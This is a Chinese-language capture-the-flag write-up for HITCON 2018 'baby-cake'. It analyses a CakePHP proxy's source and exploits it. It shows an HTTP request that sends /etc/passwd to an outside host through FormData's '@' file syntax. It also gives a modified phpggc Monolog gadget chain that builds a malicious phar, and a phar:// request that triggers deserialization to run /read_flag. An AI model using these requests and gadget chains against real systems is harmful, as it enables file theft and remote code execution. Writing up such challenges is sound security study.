

# hitcon-2018-baby-cake

题目直接给了源码，尝试直接输入 `http://www.baidu.com`，在源码中找到 `<!-- from cache -->`，借此可以定位到 `src/Controller/PagesController.php`，我们先看一下其中的关键方法 `display()`:
```php
class PagesController extends AppController {

    public function display(...$path) {    
        $request  = $this->request;
        $data = $request->getQuery('data');
        $url  = $request->getQuery('url');
        if (strlen($url) == 0) 
            return $this->back();

        $scheme = strtolower( parse_url($url, PHP_URL_SCHEME) );
        if (strlen($scheme) == 0 || !in_array($scheme, ['http', 'https']))
            return $this->back();

        $method = strtolower( $request->getMethod() );
        if ( !in_array($method, ['get', 'post', 'put', 'delete', 'patch']) )
            return $this->back();


        $headers = [];
        foreach ($request->getHeaders() as $key => $value) {
            if (in_array( strtolower($key), ['host', 'connection', 'expect', 'content-length'] ))
                continue;
            if (count($value) == 0)
                continue;

            $headers[$key] = $value[0];
        }

        $key = md5($url);
        if ($method == 'get') {
            $response = $this->cache_get($key);
            if (!$response) {
                $response = $this->httpclient($method, $url, $headers, null);
                $this->cache_set($key, $response);                
            }
        } else {
            $response = $this->httpclient($method, $url, $headers, $data);
        }

        foreach ($response->headers as $key => $value) {
            if (strtolower($key) == 'content-type') {
                $this->response->type(array('type' => $value));
                $this->response->type('type');
                continue;
            }
            $this->response->withHeader($key, $value);
        }

        $this->response->body($response->body);
        return $this->response;
    }
}
```

在中可以看到：
1. 应用从 `querystring` 获取 `data` 和 `url` 参数
2. 只支持 `http\https` 两种协议及 `get\post\put\delete\patch` 五种方法
3. 对 `get` 方法与其他方法，处理方式不一样，也是该函数的重点

我们在着重看一下处理方法：
```php
if ($method == 'get') {
    $response = $this->cache_get($key);
    if (!$response) {
        $response = $this->httpclient($method, $url, $headers, null);
        $this->cache_set($key, $response);                
    }
} else {
    $response = $this->httpclient($method, $url, $headers, $data);
}
```

对于 `get` 方法，先调用了 `cache_get` 方法，我们之前发现的注释也正是在这个函数中添加。

```php
private function cache_set($key, $response) {
    $cache_dir = $this->_cache_dir($key);
    if ( !file_exists($cache_dir) ) {
        mkdir($cache_dir, 0700, true);
        file_put_contents($cache_dir . "body.cache", $response->body);
        file_put_contents($cache_dir . "headers.cache", serialize($response->headers));
    }
}

private function cache_get($key) {
    $cache_dir = $this->_cache_dir($key);
    if (file_exists($cache_dir)) {
        $body   = file_get_contents($cache_dir . "/body.cache");
        $headers = file_get_contents($cache_dir . "/headers.cache");
        
        $body = "<!-- from cache -->\n" . $body;
        $headers = unserialize($headers);
        return new DymmyResponse($headers, $body);
    } else {
        return null;
    }
}
```

注意到该函数有个反序列化操作 `$headers = unserialize($headers);`

接着看，如果 `response` 为空，即没有缓存，则会调用 `httpclient` 请求对应内容，然后将 `response` 缓存。而 `cache_set` 函数有个序列化的操作 `serialize($response->headers)`

但在这题这里的序列化其实没啥用，继续分析。

对于其他方法，则会直接调用 `httpclient` 方法。

```php
private function httpclient($method, $url, $headers, $data) {
    $options = [
        'headers' => $headers, 
        'timeout' => 10
    ];

    $http = new Client();
    return $http->$method($url, $data, $options);
}
```

在 `vendor/cakephp/cakephp/src/Http/Client.php` 中，对一个请求的调用栈如下：
```php
$http->$method($url, $data, $options);
    $http->_doRequest(Request::METHOD_GET, $url, $body, $options);
        $http->send($request, $options); # $request = $http->_createRequest($method, $url, $data, $options);
```

在 `_createRequest` 使用了 `$request = new Request($url, $method, $headers, $data);` 构造请求，跟进 `vendor/cakephp/cakephp/src/Http/Client/Request.php` 看一下 `$request` 是如何构造的。


```php
class Request extends Message implements RequestInterface
{
    public function __construct($url = '', $method = self::METHOD_GET, array $headers = [], $data = null)
    {
        $this->validateMethod($method);
        $this->method = $method;
        $this->uri = $this->createUri($url);
        $headers += [
            'Connection' => 'close',
            'User-Agent' => 'CakePHP'
        ];
        $this->addHeaders($headers);
        $this->body($data);
    }
    
    ...
    
        public function body($body = null)
    {
        if ($body === null) {
            $body = $this->getBody();

            return $body ? $body->__toString() : '';
        }
        if (is_array($body)) {
            $formData = new FormData();
            $formData->addMany($body);
            $this->header('Content-Type', $formData->contentType());
            $body = (string)$formData;
        }
        $stream = new Stream('php://memory', 'rw');
        $stream->write($body);
        $this->stream = $stream;

        return $this;
    }
```

可以看到，对于我们传入的 data 参数，该类做了一些处理。如果 data 为数组，则调用 `vendor/cakephp/cakephp/src/Http/Client/FormData.php` 中定义的 `addMany` 函数，进而调用 `add` 函数

```php
public function addMany(array $data)
{
    foreach ($data as $name => $value) {
        $this->add($name, $value);
    }

    return $this;
}
    
    public function add($name, $value = null)
{
    if (is_array($value)) {
        $this->addRecursive($name, $value);
    } elseif (is_resource($value)) {
        $this->addFile($name, $value);
    } elseif (is_string($value) && strlen($value) && $value[0] === '@') {
        trigger_error(
            'Using the @ syntax for file uploads is not safe and is deprecated. ' .
            'Instead you should use file handles.',
            E_USER_DEPRECATED
        );
        $this->addFile($name, $value);
    } elseif ($name instanceof FormDataPart && $value === null) {
        $this->_hasComplexPart = true;
        $this->_parts[] = $name;
    } else {
        $this->_parts[] = $this->newPart($name, $value);
    }

    return $this;
}
```

`add` 中可以看到如果 `data` 参数第一个字符为 `@`，则调用 `addFile` 方法

```php
public function addFile($name, $value)
{
    $this->_hasFile = true;

    $filename = false;
    $contentType = 'application/octet-stream';
    if (is_resource($value)) {
        $content = stream_get_contents($value);
        if (stream_is_local($value)) {
            $finfo = new finfo(FILEINFO_MIME);
            $metadata = stream_get_meta_data($value);
            $contentType = $finfo->file($metadata['uri']);
            $filename = basename($metadata['uri']);
        }
    } else {
        $finfo = new finfo(FILEINFO_MIME);
        $value = substr($value, 1);
        $filename = basename($value);
        $content = file_get_contents($value);
        $contentType = $finfo->file($value);
    }
    $part = $this->newPart($name, $content);
    $part->type($contentType);
    if ($filename) {
        $part->filename($filename);
    }
    $this->add($part);

    return $part;
}
```

其中的 `file_get_contents` 函数没做任何参数过滤，参数正好是我们传入的 `data` 参数值，因此这里存在一个任意文件包含。

至此大致逻辑梳理完毕，服务器最终会通过对我们传入的 `data` 参数做一些处理，然后带着 `data` 参数访问 `url` 指定的地址。

我们尝试利用该逻辑 + 文件包含漏洞带出 /etc/passwd：

```http
POST /?url=http://**.**.**.**:9000/&data[x]=@file:///etc/passwd HTTP/1.1
Host: localhost:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3590.962 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
```



发现可以成功利用。

### phar 反序列化
服务器能像其他任意服务器发出请求 + 应用本身存在任意文件包含漏洞，是不是就让你想起了 2017 年 hitcon 的 baby\^h-master-php，正是利用 phar 反序列化。

那么应该如何生成 payload? 在 `composer.json` 我们发现了 `"monolog/monolog": "^1.23"`，而在 `phpggc` 中正好有 1.23 版本的 payload(Monolog RCE1)。因此直接修改 `chain.php` 如下：

```php
<?php

namespace GadgetChain\Monolog;

class RCE1 extends \PHPGGC\GadgetChain\RCE
{
    public $version = '1.18 <= 1.23';
    public $vector = '__destruct';
    public $author = 'cf';

    public function generate(array $parameters)
    {
        $code = "/read_flag";
        @unlink('exp.phar');
        $p = new \Phar('exp.phar');
        $p->startBuffering();
        $p->setStub("<?php __HALT_COMPILER();?>");
        $p->addFromString("test.txt", "test");
        $p->setMetadata(new \Monolog\Handler\SyslogUdpHandler(new \Monolog\Handler\BufferHandler(['current', 'system'],[$code, 'level' => null])));
        $p->stopBuffering();
    }
}
```

运行后生成 exp.phar，放在 VPS 上，访问下载到服务器
```http
GET /?url=http://xxx.xxx.xxx.xxx/exp.phar
```

然后找到 cache 位置 
```php
# config/paths.php
define('TMP', ROOT . DS . 'tmp' . DS);
define('CACHE', TMP . 'cache' . DS);

# src/controller/PagesController.php
private function _cache_dir($key){
    $ip = $this->request->getEnv('REMOTE_ADDR');
    $index = sprintf('mycache/%s/%s/', $ip, $key);
    return CACHE . $index;
}

# 最终路径为 /tmp/cache/mycache/ip/md5($url)/body.cache
```

通过 POST 请求触发反序列化，读取 flag
```http
POST /?url=http://xx.xx.xxx.xx&data[s]=@phar:///../tmp/cache/mycache/172.17.0.1/e494da96585eefa8b3cb4f98309d389b/body.cach
```

